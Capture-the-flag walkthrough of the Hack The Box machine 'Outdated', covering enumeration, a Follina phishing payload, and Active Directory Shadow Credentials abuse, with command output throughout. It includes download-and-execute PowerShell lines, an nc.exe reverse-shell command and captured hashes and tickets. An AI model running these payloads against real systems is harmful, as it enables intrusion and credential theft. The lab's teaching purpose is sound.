



# Outdated
## Enumeration
- `nmap`
```
└─$ nmap -Pn -p- 10.10.11.175 -T4                           
Starting Nmap 7.94 ( https://nmap.org ) at 2023-09-04 20:50 BST
Nmap scan report for 10.10.11.175 (10.10.11.175)
Host is up (0.16s latency).
Not shown: 65513 filtered tcp ports (no-response)
PORT      STATE SERVICE
25/tcp    open  smtp
53/tcp    open  domain
88/tcp    open  kerberos-sec
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
389/tcp   open  ldap
445/tcp   open  microsoft-ds
464/tcp   open  kpasswd5
593/tcp   open  http-rpc-epmap
636/tcp   open  ldapssl
3268/tcp  open  globalcatLDAP
3269/tcp  open  globalcatLDAPssl
5985/tcp  open  wsman
8530/tcp  open  unknown
8531/tcp  open  unknown
9389/tcp  open  adws
49667/tcp open  unknown
49685/tcp open  unknown
49686/tcp open  unknown
49689/tcp open  unknown
49928/tcp open  unknown
52597/tcp open  unknown

```
```
└─$ nmap -Pn -p25,53,88,135,139,143,389,445,464,587,593,636,2179,3268,3269,5985,8530,8531,9389 -sC -sV 10.10.11.175 -T4
Starting Nmap 7.94 ( https://nmap.org ) at 2023-09-04 21:06 BST
Nmap scan report for 10.10.11.175 (10.10.11.175)
Host is up (0.18s latency).

PORT     STATE    SERVICE       VERSION
25/tcp   open     smtp          hMailServer smtpd
| smtp-commands: mail.outdated.htb, SIZE 20480000, AUTH LOGIN, HELP
|_ 211 DATA HELO EHLO MAIL NOOP QUIT RCPT RSET SAML TURN VRFY
53/tcp   open     domain        Simple DNS Plus
88/tcp   open     kerberos-sec  Microsoft Windows Kerberos (server time: 2023-09-05 03:05:47Z)
135/tcp  open     msrpc         Microsoft Windows RPC
139/tcp  open     netbios-ssn   Microsoft Windows netbios-ssn
143/tcp  filtered imap
389/tcp  open     ldap          Microsoft Windows Active Directory LDAP (Domain: outdated.htb0., Site: Default-First-Site-Name)
|_ssl-date: 2023-09-05T03:07:12+00:00; +6h59m24s from scanner time.
| ssl-cert: Subject: commonName=DC.outdated.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:DC.outdated.htb
| Not valid before: 2023-09-05T02:40:55
|_Not valid after:  2024-09-04T02:40:55
445/tcp  open     microsoft-ds?
464/tcp  open     kpasswd5?
587/tcp  filtered submission
593/tcp  open     ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open     ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: outdated.htb0., Site: Default-First-Site-Name)
|_ssl-date: 2023-09-05T03:07:13+00:00; +6h59m24s from scanner time.
| ssl-cert: Subject: commonName=DC.outdated.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:DC.outdated.htb
| Not valid before: 2023-09-05T02:40:55
|_Not valid after:  2024-09-04T02:40:55
2179/tcp filtered vmrdp
3268/tcp open     ldap          Microsoft Windows Active Directory LDAP (Domain: outdated.htb0., Site: Default-First-Site-Name)
|_ssl-date: 2023-09-05T03:07:12+00:00; +6h59m24s from scanner time.
| ssl-cert: Subject: commonName=DC.outdated.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:DC.outdated.htb
| Not valid before: 2023-09-05T02:40:55
|_Not valid after:  2024-09-04T02:40:55
3269/tcp open     ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: outdated.htb0., Site: Default-First-Site-Name)
|_ssl-date: 2023-09-05T03:07:12+00:00; +6h59m24s from scanner time.
| ssl-cert: Subject: commonName=DC.outdated.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:DC.outdated.htb
| Not valid before: 2023-09-05T02:40:55
|_Not valid after:  2024-09-04T02:40:55
5985/tcp open     http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
8530/tcp open     http          Microsoft IIS httpd 10.0
|_http-server-header: Microsoft-IIS/10.0
|_http-title: Site doesn't have a title.
| http-methods: 
|_  Potentially risky methods: TRACE
8531/tcp open     unknown
9389/tcp open     mc-nmf        .NET Message Framing
Service Info: Hosts: mail.outdated.htb, DC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required
| smb2-time: 
|   date: 2023-09-05T03:06:37
|_  start_date: N/A
|_clock-skew: mean: 6h59m23s, deviation: 0s, median: 6h59m23s

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 99.07 seconds

```
- `smb`
```
└─$ smbclient -N -L //10.10.11.175       

        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        C$              Disk      Default share
        IPC$            IPC       Remote IPC
        NETLOGON        Disk      Logon server share 
        Shares          Disk      
        SYSVOL          Disk      Logon server share 
        UpdateServicesPackages Disk      A network share to be used by client systems for collecting all software packages (usually applications) published on this WSUS system.
        WsusContent     Disk      A network share to be used by Local Publishing to place published content on this WSUS system.
        WSUSTemp        Disk      A network share used by Local Publishing from a Remote WSUS Console Instance.
Reconnecting with SMB1 for workgroup listing.
do_connect: Connection to 10.10.11.175 failed (Error NT_STATUS_RESOURCE_NAME_NOT_FOUND)
Unable to connect with SMB1 -- no workgroup available

```
- `smtp`
```
└─$ nmap -Pn -p25 10.10.11.175 -T4 --script=smtp*
Starting Nmap 7.94 ( https://nmap.org ) at 2023-09-05 16:49 BST
NSE: [smtp-brute] usernames: Time limit 5m00s exceeded.
NSE: [smtp-brute] usernames: Time limit 5m00s exceeded.
NSE: [smtp-brute] passwords: Time limit 5m00s exceeded.
Nmap scan report for dc.outdated.htb (10.10.11.175)
Host is up (0.092s latency).

PORT   STATE SERVICE
25/tcp open  smtp
| smtp-enum-users: 
|_  Couldn't perform user enumeration, authentication needed
| smtp-commands: mail.outdated.htb, SIZE 20480000, AUTH LOGIN, HELP
|_ 211 DATA HELO EHLO MAIL NOOP QUIT RCPT RSET SAML TURN VRFY
| smtp-brute: 
|   Accounts: No valid accounts found
|_  Statistics: Performed 4290 guesses in 301 seconds, average tps: 13.7
| smtp-vuln-cve2010-4344: 
|_  The SMTP server is not Exim: NOT VULNERABLE
|_smtp-open-relay: Server isn't an open relay, authentication needed

```
## Foothold
- `smb`
```
└─$ smbclient -N //10.10.11.175/Shares
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Mon Jun 20 16:01:33 2022
  ..                                  D        0  Mon Jun 20 16:01:33 2022
  NOC_Reminder.pdf                   AR   106977  Mon Jun 20 16:00:32 2022

                9116415 blocks of size 4096. 2055504 blocks available
smb: \> get NOC_Reminder.pdf 
getting file \NOC_Reminder.pdf of size 106977 as NOC_Reminder.pdf (68.5 KiloBytes/sec) (average 68.5 KiloBytes/sec)
smb: \> exit
```

- The content of `pdf`


- We have a bunch of `CVE`s
  - [CVE-2022-30190](https://msrc.microsoft.com/update-guide/vulnerability/CVE-2022-30190)
  - [CVE-2022-30129](https://msrc.microsoft.com/update-guide/en-US/vulnerability/CVE-2022-30129)
  - [CVE-2022-30138](https://msrc.microsoft.com/update-guide/en-US/vulnerability/CVE-2022-30138) 
  - [CVE-2022-29130](https://msrc.microsoft.com/update-guide/vulnerability/CVE-2022-29130)
  - [CVE-2022-29110](https://msrc.microsoft.com/update-guide/en-US/vulnerability/CVE-2022-29110)
- When the box was released, only `CVE-2022-30190`'s `poc` was available
  - So we will solve the box this way
  - [John Hammond](https://www.youtube.com/watch?v=dGCOhORNKRk) has a nice video explaining this vulnerability
  - [PoC1](https://github.com/chvancooten/follina.py)
  - [PoC2](https://github.com/JohnHammond/msdt-follina)
- Based on `pdf` we see that when we send an email with a link, it will be added to monitoring system (probably will be visited)
  - To test it let's launch a web server and send an email with the link to it
```
└─$ swaks --to itsupport@outdated.htb --from "pentester@mail.htb" --header "Subject:Internal Web App" --body "http://10.10.16.5" 
=== Trying outdated.htb:25...
=== Connected to outdated.htb.
<-  220 mail.outdated.htb ESMTP
 -> EHLO kali
<-  250-mail.outdated.htb
<-  250-SIZE 20480000
<-  250-AUTH LOGIN
<-  250 HELP
 -> MAIL FROM:<pentester@mail.htb>
<-  250 OK
 -> RCPT TO:<itsupport@outdated.htb>
<-  250 OK
 -> DATA
<-  354 OK, send.
 -> Date: Tue, 05 Sep 2023 17:52:08 +0100
 -> To: itsupport@outdated.htb
 -> From: pentester@mail.htb
 -> Subject:Internal Web App
 -> Message-Id: <20230905175208.101414@kali>
 -> X-Mailer: swaks v20201014.0 jetmore.org/john/code/swaks/
 -> 
 -> http://10.10.16.5
 -> 
 -> 
 -> .
<-  250 Queued (10.328 seconds)
 -> QUIT
<-  221 goodbye
=== Connection closed with remote host.
```
```
└─$ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.11.175 - - [05/Sep/2023 17:52:25] "GET / HTTP/1.1" 200 -
```
- So now we need to generate the a `html` payload
  - I used [PoC](https://github.com/chvancooten/follina.py)
  - `python3 follina.py/follina.py -t rtf -m command "IEX(New-Object Net.Webclient).DownloadString('http://10.10.16.5/shell.ps1')" -u 10.10.16.5 -p 80`
  - I placed `shell.ps1` in the same directory
```
└─$ python3 ./follina.py -t rtf -m command -c "IEX(New-Object Net.Webclient).DownloadString('http://10.10.16.5/shell.ps1')" -u 10.10.16.5 -P 80
Generated 'clickme.rtf' in current directory
Generated 'exploit.html' in 'www' directory
Serving payload on http://10.10.16.5:80/exploit.html
```

- And we receive our connection




## User
- `whoami`
```
PS C:\users\btables> whoami       
outdated\btables
PS C:\users\btables> whoami /groups

GROUP INFORMATION
-----------------

Group Name                                 Type             SID                                          Attributes                                        
========================================== ================ ============================================ ==================================================
Everyone                                   Well-known group S-1-1-0                                      Mandatory group, Enabled by default, Enabled group
BUILTIN\Users                              Alias            S-1-5-32-545                                 Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\INTERACTIVE                   Well-known group S-1-5-4                                      Mandatory group, Enabled by default, Enabled group
CONSOLE LOGON                              Well-known group S-1-2-1                                      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users           Well-known group S-1-5-11                                     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization             Well-known group S-1-5-15                                     Mandatory group, Enabled by default, Enabled group
LOCAL                                      Well-known group S-1-2-0                                      Mandatory group, Enabled by default, Enabled group
OUTDATED\ITStaff                           Group            S-1-5-21-4089647348-67660539-4016542185-1107 Mandatory group, Enabled by default, Enabled group
Authentication authority asserted identity Well-known group S-1-18-1                                     Mandatory group, Enabled by default, Enabled group
Mandatory Label\Medium Mandatory Level     Label            S-1-16-8192                                                                                    
PS C:\users\btables> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                          State   
============================= ==================================== ========
SeShutdownPrivilege           Shut down the system                 Disabled
SeChangeNotifyPrivilege       Bypass traverse checking             Enabled 
SeUndockPrivilege             Remove computer from docking station Disabled
SeIncreaseWorkingSetPrivilege Increase a process working set       Disabled
SeTimeZonePrivilege           Change the time zone                 Disabled
```
- `systeminfo`
```
PS C:\Users\btables\AppData\Local\Temp\SDIAG_52231ba7-7e35-4c18-9657-51b2de4f57ad> systeminfo

Host Name:                 CLIENT
OS Name:                   Microsoft Windows 10 Enterprise N
OS Version:                10.0.19043 N/A Build 19043
OS Manufacturer:           Microsoft Corporation
OS Configuration:          Member Workstation
OS Build Type:             Multiprocessor Free
Registered Owner:          setup
Registered Organization:   
Product ID:                00330-00182-51735-AA058
Original Install Date:     6/15/2022, 8:20:38 AM
System Boot Time:          9/4/2023, 7:49:45 PM
System Manufacturer:       Microsoft Corporation
System Model:              Virtual Machine
System Type:               x64-based PC
Processor(s):              1 Processor(s) Installed.
                           [01]: AMD64 Family 23 Model 49 Stepping 0 AuthenticAMD ~2994 Mhz
BIOS Version:              American Megatrends Inc. 090007 , 5/18/2018
Windows Directory:         C:\Windows
System Directory:          C:\Windows\system32
Boot Device:               \Device\HarddiskVolume1
System Locale:             en-us;English (United States)
Input Locale:              en-us;English (United States)
Time Zone:                 (UTC-08:00) Pacific Time (US & Canada)
Total Physical Memory:     1,610 MB
Available Physical Memory: 469 MB
Virtual Memory: Max Size:  2,250 MB
Virtual Memory: Available: 903 MB
Virtual Memory: In Use:    1,347 MB
Page File Location(s):     C:\pagefile.sys
Domain:                    outdated.htb
Logon Server:              \\DC
Hotfix(s):                 4 Hotfix(s) Installed.
                           [01]: KB4601554
                           [02]: KB5000736
                           [03]: KB5001330
                           [04]: KB5001405
Network Card(s):           1 NIC(s) Installed.
                           [01]: Microsoft Hyper-V Network Adapter
                                 Connection Name: Ethernet
                                 DHCP Enabled:    No
                                 IP address(es)
                                 [01]: 172.16.20.20
Hyper-V Requirements:      A hypervisor has been detected. Features required for Hyper-V will not be displayed.
```
- `ipconfig`
```
PS C:\Users\btables\AppData\Local\Temp\SDIAG_52231ba7-7e35-4c18-9657-51b2de4f57ad> ipconfig

Windows IP Configuration


Ethernet adapter Ethernet:

   Connection-specific DNS Suffix  . : 
   IPv4 Address. . . . . . . . . . . : 172.16.20.20
   Subnet Mask . . . . . . . . . . . : 255.255.255.0
   Default Gateway . . . . . . . . . : 172.16.20.1
```
- Looks like we are inside container, since the `ip` and `hostname` are different
  - But the domain is `outdated.htb`
  - I will download `SharpHound` and run it
  - `iwr -uri http://10.10.16.5/SharpHound/SharpHound.exe -outfile sharphound.exe`
```
PS C:\users\btables> .\sharphound.exe -c all      
2023-09-05T17:33:21.5510063-07:00|INFORMATION|This version of SharpHound is compatible with the 4.2 Release of BloodHound
2023-09-05T17:33:21.8478592-07:00|INFORMATION|Resolved Collection Methods: Group, LocalAdmin, GPOLocalGroup, Session, LoggedOn, Trusts, ACL, Container, RDP, ObjectProps, DCOM, SPNTargets, PSRemote
2023-09-05T17:33:21.8947387-07:00|INFORMATION|Initializing SharpHound at 5:33 PM on 9/5/2023
2023-09-05T17:33:22.5084762-07:00|INFORMATION|Flags: Group, LocalAdmin, GPOLocalGroup, Session, LoggedOn, Trusts, ACL, Container, RDP, ObjectProps, DCOM, SPNTargets, PSRemote
2023-09-05T17:33:22.7584794-07:00|INFORMATION|Beginning LDAP search for outdated.htb
2023-09-05T17:33:22.8678630-07:00|INFORMATION|Producer has finished, closing LDAP channel
2023-09-05T17:33:22.8678630-07:00|INFORMATION|LDAP channel closed, waiting for consumers
2023-09-05T17:33:53.7567707-07:00|INFORMATION|Status: 0 objects finished (+0 0)/s -- Using 36 MB RAM
2023-09-05T17:34:13.7850701-07:00|INFORMATION|Consumers finished, closing output channel
2023-09-05T17:34:13.8474706-07:00|INFORMATION|Output channel closed, waiting for output task to complete
Closing writers
2023-09-05T17:34:14.0005105-07:00|INFORMATION|Status: 97 objects finished (+97 1.901961)/s -- Using 44 MB RAM
2023-09-05T17:34:14.0161334-07:00|INFORMATION|Enumeration finished in 00:00:51.2598743
2023-09-05T17:34:14.0786481-07:00|INFORMATION|Saving cache with stats: 56 ID to type mappings.
 58 name to SID mappings.
 1 machine sid mappings.
 2 sid to domain mappings.
 0 global catalog mappings.
2023-09-05T17:34:14.0942886-07:00|INFORMATION|SharpHound Enumeration Completed at 5:34 PM on 9/5/2023! Happy Graphing!
```
```
PS C:\users\btables> ls


    Directory: C:\users\btables


Mode                 LastWriteTime         Length Name                                                                  
----                 -------------         ------ ----                                                                  
d-r---         6/15/2022   9:57 AM                3D Objects                                                            
d-----         6/16/2022   7:14 PM                AutoLogon                                                             
d-r---         6/15/2022   9:57 AM                Contacts                                                              
d-r---         6/15/2022   9:57 AM                Desktop                                                               
d-r---         6/17/2022  11:51 PM                Documents                                                             
d-r---         6/15/2022  11:10 PM                Downloads                                                             
d-r---         6/15/2022   9:57 AM                Favorites                                                             
d-r---         6/15/2022   9:57 AM                Links                                                                 
d-r---         6/15/2022   9:57 AM                Music                                                                 
d-r---         6/15/2022   9:58 AM                OneDrive                                                              
d-r---         6/15/2022   9:58 AM                Pictures                                                              
d-r---         6/15/2022   9:57 AM                Saved Games                                                           
d-r---         6/15/2022   9:57 AM                Searches                                                              
d-r---         6/15/2022   9:57 AM                Videos                                                                
-a----          9/5/2023   5:34 PM          11910 20230905173413_BloodHound.zip                                         
-a----          9/5/2023   5:34 PM           8677 MjdhMDc5MjItNDk4MS00NjFiLWFkY2ItZjQ0ZTBlODI3Mzhh.bin                  
-a----          9/5/2023   5:31 PM        1051648 sharphound.exe  
```

- Let's download it our box
```
PS C:\users\btables> copy 20230905173413_BloodHound.zip \\10.10.16.5\share\
```
```
└─$ impacket-smbserver share $(pwd) -smb2support
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed
[*] Incoming connection (10.10.11.175,49889)
[*] AUTHENTICATE_MESSAGE (OUTDATED\btables,CLIENT)
[*] User CLIENT\btables authenticated successfully
[*] btables::OUTDATED:aaaaaaaaaaaaaaaa:b70a1005340ab4228539da15e69d2a4d:0101000000000000005aae711fe0d901e6cae862a6fb10a70000000001001000440065006e004500700070006900640003001000440065006e00450070007000690064000200100073006c0062004e007800620072004e000400100073006c0062004e007800620072004e0007000800005aae711fe0d9010600040002000000080030003000000000000000000000000020000068587445768fe1e138b038c913b94f9169a88007a37692f3f0a8fe886c78a8060a0010000000000000000000000000000000000009001e0063006900660073002f00310030002e00310030002e00310036002e0035000000000000000000
[*] Connecting Share(1:IPC$)
[*] Connecting Share(2:share)
[*] Disconnecting Share(1:IPC$)
[*] Disconnecting Share(2:share)
[*] Closing down connection (10.10.11.175,49889)
[*] Remaining connections []

```

- Run `neo4j` and `bloodhound`
  - We see that `btables` is a `memberof` `itstaff@outdated.htb` which has `AddKeyCredentialLink` to `sflowers`




- It's a `Shadow Credentials`
  - https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/shadow-credentials
  - https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/acl-persistence-abuse/shadow-credentials
  - I will use [PowerSharpPack](https://github.com/S3cur3Th1sSh1t/PowerSharpPack) for `Whisker`

```
PS C:\Users\btables> iex(New-Object net.webclient).downloadString('http://10.10.16.5:443/PowerSharpPack/PowerSharpBinaries/Invoke-Whisker.ps1')
iex(New-Object net.webclient).downloadString('http://10.10.16.5:443/PowerSharpPack/PowerSharpBinaries/Invoke-Whisker.ps1')
PS C:\Users\btables> Invoke-Whisker -command "add /target:sflowers"
Invoke-Whisker -command "add /target:sflowers"
[*] No path was provided. The certificate will be printed as a Base64 blob
[*] No pass was provided. The certificate will be stored with the password JSXTw8ZbdTDLw9Ib
[*] Searching for the target account
[*] Target user found: CN=Susan Flowers,CN=Users,DC=outdated,DC=htb
[*] Generating certificate
[*] Certificate generaged
[*] Generating KeyCredential
[*] KeyCredential generated with DeviceID 46daa04a-a0a3-4c32-92ff-d92db1407221
[*] Updating the msDS-KeyCredentialLink attribute of the target object
[+] Updated the msDS-KeyCredentialLink attribute of the target object
[*] You can now run Rubeus with the following syntax:

Rubeus.exe asktgt /user:sflowers /certificate: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 /password:"JSXTw8ZbdTDLw9Ib" /domain:outdated.htb /dc:DC.outdated.htb /getcredentials /show
```

- Let's run `Rubeus`
  - In case you will issues with `Powershell` shell, I suggest to migrate to `nc.exe`
    - `python3 ./follina.py -t rtf -m command -c "IWR http://10.10.16.5/nc.exe -outfile C:\\programdata\\nc.exe; C:\\programdata\\nc.exe 10.10.16.5 6666 -e cmd" -u 10.10.16.5 -P 80`
```
PS C:\Users\btables> .\Rubeus.exe asktgt /user:sflowers /certificate:MIIJuAIBAzCCCXQGCSqGSIb3DQEHAaCCCWUEgglhMIIJXTCCBhYGCSqGSIb3DQEHAaCCBgcEggY
... /password:"JSXTw8ZbdTDLw9Ib" /domain:outdated.htb /dc:DC.outdated.htb /getcredentials /show

   ______        _                      
  (_____ \      | |                     
   _____) )_   _| |__  _____ _   _  ___ 
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v2.2.0 

[*] Action: Ask TGT

[*] Using PKINIT with etype rc4_hmac and subject: CN=sflowers 
[*] Building AS-REQ (w/ PKINIT preauth) for: 'outdated.htb\sflowers'
[*] Using domain controller: 172.16.20.1:88
[+] TGT request successful!
[*] base64(ticket.kirbi):

      doIF0jCCBc6gAwIBBaEDAgEWooIE5zCCBONhggTfMIIE26ADAgEFoQ4bDE9VVERBVEVELkhUQqIhMB+g
      AwIBAqEYMBYbBmtyYnRndBsMb3V0ZGF0ZWQuaHRio4IEnzCCBJugAwIBEqEDAgECooIEjQSCBIkSYeDn
      +lPMogLUv713OUlzEGpHOOfeY9NeOF+Vn0b8uCrduokp5OvwC+s22OeqzLWo0id5JCs6eQsg6hfVD6YV
      LFgJBM9Cz1EUrFnmS5ChhtjFWYXJwJYnBNI98QFOogpuamUn97pDmKLOP8yhiWoJZHcfuJuJbe3S6iOQ
      Y3NKll5x59O/0BdBpgL6NbhdNL3zqt2X35Y7eqYUmH4q82COvjOKHi0SfMpmgwzzoWHKHYq2I9xkwM74
      yv1FBPbD9yJ0edV0yyXHqEjEYGdDOteDuTbW6Eim4f61ZsRotUIMfxEYourMIhx01++ELv4JQe9/0P+8
